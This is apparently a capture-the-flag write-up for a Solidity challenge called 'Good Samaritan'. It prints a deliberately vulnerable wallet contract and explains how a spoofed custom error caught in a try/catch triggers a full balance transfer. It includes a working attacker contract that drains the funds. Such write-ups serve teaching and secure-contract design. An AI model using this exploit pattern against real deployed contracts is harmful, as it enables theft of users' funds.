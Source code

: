 # Good Samaritan

## Challenge Description

This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it.

Would you be able to drain all the balance from his Wallet?

Things that might help:

-   [Solidity Custom Errors](https://blog.soliditylang.org/2021/04/21/custom-errors/)

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "@openzeppelin/contracts/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns (bool enoughBalance) {
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (
                keccak256(abi.encodeWithSignature("NotEnoughBalance()")) ==
                keccak256(err)
            ) {
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        balances[wallet_] = 10 ** 6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        if (amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if (dest_.isContract()) {
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if (msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

## Challenge Solution Walkthrough

In this challenge, the goal is to drain all the funds from the `GoodSamaritan` contract. The contract initially holds 1,000,000 coins, with each withdrawal limited to 10 coins. Since it would take 10,000 transactions to withdraw all the coins individually, we need to find a way to drain the funds in a single contract interaction.

To understand the process, let's examine the `requestDonation()` function of the `GoodSamaritan` contract. This function initiates the donation request:

```solidity
function requestDonation() external returns (bool enoughBalance) {
    try wallet.donate10(msg.sender) {
        return true;
    } catch (bytes memory err) {
        if (
            keccak256(abi.encodeWithSignature("NotEnoughBalance()")) ==
            keccak256(err)
        ) {
            wallet.transferRemainder(msg.sender);
            return false;
        }
    }
}
```

When `requestDonation()` is called, it invokes the `donate10()` function of the `Wallet` contract. If the donation is successful, it transfers 10 coins. However, if the donation fails due to insufficient balance and reverts with the `"NotEnoughBalance()"` error message, it triggers the `transferRemainder()` function of the `Wallet` contract.

Let's explore the `donate10()` function:

```solidity
function donate10(address dest_) external onlyOwner {
    if (coin.balances(address(this)) < 10) {
        revert NotEnoughBalance();
    } else {
        coin.transfer(dest_, 10);
    }
}
```

In this function, the balance of the contract is checked. If it holds less than 10 coins, the function reverts with the `NotEnoughBalance()` error message. However, if the balance is sufficient, it transfers 10 coins using the `transfer()` function of the `Coin` contract.

Now, let's examine the `transfer()` function of the `Coin` contract:

```solidity
function transfer(address dest_, uint256 amount_) external {
    uint256 currentBalance = balances[msg.sender];

    if (amount_ <= currentBalance) {
        balances[msg.sender] -= amount_;
        balances[dest_] += amount_;

        if (dest_.isContract()) {
            INotifyable(dest_).notify(amount_);
        }
    } else {
        revert InsufficientBalance(currentBalance, amount_);
    }
}
```

This function retrieves the current balance of the sender's address. If the requested amount is less than or equal to the current balance, it subtracts the amount from the sender's balance and adds it to the `dest_` address. Additionally, if `dest_` is a contract, it calls the `notify()` function of the `dest_` contract to inform it about the sent amount. Importantly, the `dest_` address is the contract requesting the donation, while `msg.sender` represents the `Wallet` contract's address.

When the `notify()` function of the caller contract is executed, it has the ability to revert the transaction with the `"NotEnoughBalance()"` message. As a result, the `requestDonation()` function will execute the `transferRemainder()` function of the `Wallet` contract, transferring all the funds from the `Wallet` contract to the contract that requested the donation.

To solve this challenge, you need to implement and deploy the following contract, `GoodSamaritanSolution`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "./GoodSamaritan.sol";

error NotEnoughBalance();

contract GoodSamaritanSolution {
    GoodSamaritan public goodSamaritan;

    constructor(address goodSamaritanAddress) {
        goodSamaritan = GoodSamaritan(goodSamaritanAddress);
    }

    function solveChallenge() public {
        goodSamaritan.requestDonation();
    }

    function notify(uint256 amount) external pure {
        if (amount == 10) revert NotEnoughBalance();
    }
}
```

When you call the `solveChallenge()` function of the `GoodSamaritanSolution` contract, it requests a donation using the `requestDonation()` function of the `GoodSamaritan` contract. The `requestDonation()` function then invokes the `donate10()` function of the `Wallet` contract, which, in turn, calls the `transfer()` function of the `Coin` contract. During the execution of `INotifyable(dest_).notify(amount_)`, the `notify()` function of the `GoodSamaritanSolution` contract will be called. Since the amount is set to 10, the transaction will revert with the `NotEnoughBalance()` message. Consequently, the `requestDonation()` function will execute the `transferRemainder()` function of the `Wallet` contract, transferring all the funds to the `GoodSamaritanSolution` contract.

## Challenge Description After Solving

Congratulations!

Custom errors in Solidity are identified by their 4-byte ‘selector’, the same as a function call. They are bubbled up through the call chain until they are caught by a catch statement in a try-catch block, as seen in the GoodSamaritan's `requestDonation()` function. For these reasons, it is not safe to assume that the error was thrown by the immediate target of the contract call (i.e., Wallet in this case). Any other contract further down in the call chain can declare the same error and throw it at an unexpected location, such as in the `notify(uint256 amount)` function in your attacker contract.
